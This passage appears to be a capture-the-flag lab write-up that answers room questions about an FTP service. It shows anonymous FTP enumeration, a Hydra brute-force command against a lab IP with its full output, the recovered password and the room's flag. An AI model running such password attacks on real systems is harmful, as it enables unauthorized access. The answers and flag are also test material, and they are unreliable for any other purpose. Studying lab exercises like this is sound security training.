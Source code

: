 - How many **ports** are open on the target machine?	``2`` Note: seemed 1 but ok
- What **port** is ftp running on?	``21``
- What **variant** of FTP is running on it?	``vsftp``
- What is the name of the file in the anonymous FTP directory?	``PUBLIC_NOTICE.txt``
-  What do we think a possible username could be?	``Mike``

````
❯ /bin/cat PUBLIC_NOTICE.txt
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,

Mike 
````
-   Great! Now we've got details about the FTP server and, crucially, a possible username. Let's see what we can do with that... ``No answer needed``

## Task 10: Exploiting FTP
````
❯ hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.113.139 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-06 07:00:37
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ftp://10.10.113.139:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.113.139 - login "mike" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.113.139 - login "mike" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.113.139 - login "mike" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.113.139 - login "mike" - pass "password" - 4 of 14344398 [child 3] (0/0)
[21][ftp] host: 10.10.113.139   login: mike   password: password
[STATUS] attack finished for 10.10.113.139 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-06 07:00:42
````

- What is the password for the user "mike"?	``password``
- Bingo! Now, let's connect to the FTP server as this user using **"ftp [IP]"** and entering the credentials when prompted	``No answer needed``
- What is ftp.txt?	``THM{y0u_g0t_th3_ftp_fl4g}``
